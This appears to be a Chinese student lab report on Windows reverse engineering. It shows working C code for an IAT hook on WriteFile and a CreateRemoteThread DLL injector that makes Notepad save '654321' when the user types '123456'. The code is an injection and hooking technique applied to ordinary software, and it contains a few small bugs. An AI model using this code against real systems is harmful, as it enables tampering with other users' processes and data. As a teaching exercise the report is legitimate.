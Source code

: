 # DLL注入实验报告

### 实验目的

+ 利用dll注入、hook篡改记事本行为，使得在记事本中输入“123456”，实际写入的内容是“654321”

### 实验原理

+ API hook：通过hook“接触”到需要修改的API函数入口点，改变它的地址指向新的自定义的函数，以此改变一个系统API的原有功能。、常见的API Hook包括2种， 一种是基于PE文件的导入表(IAT), 还有一种是修改前5个字节直接JMP的inline Hook
+ IAT hook：原理是PE文件里有个导入表， 代表该模块调用了哪些外部API，模块被加载到内存后， PE加载器会修改该表，地址改成外部API重定位后的真实地址， 我们只要直接把里面的地址改成我们新函数的地址， 就可以完成对相应API的Hook
+ notepad在写入文件时使用的是kernelbase模块的writefile函数，所以在进行IAT hook时，只需要将writefile的地址改为新写的函数地址

### 实验过程

#### Hook

+ 首先运行一个简单的IAT hook[例子](https://github.com/tinysec/iathook)，在本地vs2019新建项目hook，将示例仓库内的README.md保存为main.c函数，将IATHook.c保存在项目内，编译运行成功

  ![](image/hook_exam.png)

+ 示例仓库中使用的函数是MessageBoxA，其Hook方式是编写一个Fake_MessageBox改变地址，因此我们仿照其方法编写Fake_WriteFile函数

  ```
  int __stdcall Fake_WriteFile(
  	HANDLE       hFile,
  	LPCVOID      lpBuffer,
  	DWORD        nNumberOfBytesToWrite,
  	LPDWORD      lpNumberOfBytesWritten,
  	LPOVERLAPPED lpOverlapped
  	)
  {
  	
  	LPFN_WriteFile fnOrigin = (LPFN_WriteFile)GetIATHookOrign(g_hHook_WriteFile);
  	char content[] = "654321";  //篡改的内容 
  	DWORD dwWrite;
  	return fnOrigin(fFile, &content, strlen(content), &dwWrite, lpOverlapped);
  }
  
  ```

  WriteFile函数所在模块为kernel32.dll，因此需要修改IATHook函数：

  ```
  IATHook(
  			GetModuleHandle(NULL),
  			"kernel32.dll",
  			"WriteFile",
  			Fake_WriteFile,
  			&g_hHook_WriteFile
  		);
  ```

  修改后的main.c文件为

+ 检测Hook是否成功

  在主函数中添加以下内容以检测Hook是否成功，

  ```
  HANDLE hFILE = CreateFile("C:\\Users\\LM\\Desktop\\逆向工程\\test.txt", GENERIC_WRITE, 0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);//创建测试txt文件
  
  char buff[256] = "123456";
  
  DWORD dwWrite;
  
  WriteFile(hFILE, &buff, strlen(buff), &dwWrite, NULL); //在记事本中输入123456，若Hook攻击成功，则实际输入的内容是654321
  
  UnIATHook(g_hHook_WriteFile);
  
  CloseHandle(hFILE);
  ```

  

  调试，在运行到WriteFile函数时会发现跳转到了我们自己写的Fake_WriteFile函数内，并在记事本内写入篡改的内容，实现了Hook攻击

  ![](image/Hook_test.png)

#### DLL注入

+ 将上一步建立的项目生成DLL动态库

  + 修改项目属性的部分内容![](image/property.png)

    ![](image/def.png)

  + 生成dll动态库

    ![](image/dll.png)

+ 新建DLL注入项目inject，这里我使用CreateRemoteThread()的注入技术，编写代码inject.c,向指定进程中注入DLL

  ```
  #pragma warning(disable:4996)
  #include <windows.h>
  #include<stdio.h>
  #include <tchar.h>
  
  BOOL InjectDll(DWORD dwPID, LPCTSTR szDllPath) {
  
  	HANDLE hProcess = NULL;
  
  	HANDLE hThread = NULL;
  
  	HMODULE hMod = NULL;
  
  	LPVOID pRemoteBuf = NULL;  // 存储在目标进程申请的内存地址
  
  	DWORD dwBufSize = (DWORD)(_tcslen(szDllPath) + 1) * sizeof(TCHAR);  // 存储DLL文件路径所需的内存空间大小
  
  	LPTHREAD_START_ROUTINE pThreadProc;
  
  
  
  	if (!(hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, dwPID))) {
  
  		printf(L"OpenProcess(%d) failed!!! [%d]\n", dwPID, GetLastError());
  
  		return FALSE;
  
  	}
  
  	pRemoteBuf = VirtualAllocEx(hProcess, NULL, dwBufSize, MEM_COMMIT, PAGE_READWRITE);  // 在目标进程空间中申请内存
  	WriteProcessMemory(hProcess, pRemoteBuf, (LPVOID)szDllPath, dwBufSize, NULL);  // 向在目标进程申请的内存空间中写入DLL文件的路径
  	hMod = GetModuleHandle(L"kernel32.dll");
  	pThreadProc = (LPTHREAD_START_ROUTINE)GetProcAddress(hMod, "LoadLibraryW");  // 获得LoadLibrary()函数的地址
  	hThread = CreateRemoteThread(hProcess, NULL, 0, pThreadProc, pRemoteBuf, 0, NULL);
  	WaitForSingleObject(hThread, INFINITE);
  	CloseHandle(hThread);
  	CloseHandle(hProcess);
  	return TRUE;
  
  }
  
  
  int main() {
  	char szDllPath[] = "hook.dll";
  	printf("请输入进程号:");
  	DWORD dwPID;
  	scanf("%u", &dwPID);
  	if (InjectDll((DWORD)_tstol(dwPID), szDllPath))
  		printf("InjectDll(\"%s\") success\n", szDllPath);
  	else
  		printf(L"InjectDll(\"%s\") failed\n", szDllPath);
  	return 0;
  }
  
  ```

+ 使用notepad（32位）打开一个txt文件，查看其进程号，然后运行注入项目，输入PID，DLL注入成功

  ![](image/Pid.png)

  ![](image/inject.png)

+ 在txt中写入123456，再次打开会发现其内容变为了654321

  ![](image/result.png)

  

  

### 实验参考

+ [iathook](https://github.com/tinysec/iathook)

+ [HOOK技术的一些简单总结 ](https://www.cnblogs.com/weiym/p/3396274.html)

+ [多种DLL注入技术原理介绍](https://blog.csdn.net/fuhanghang/article/details/83795769)

+ [fdiskyou/injectAllTheThings: Seven different DLL injection techniques in one single project](https://github.com/fdiskyou/injectAllTheThings)

  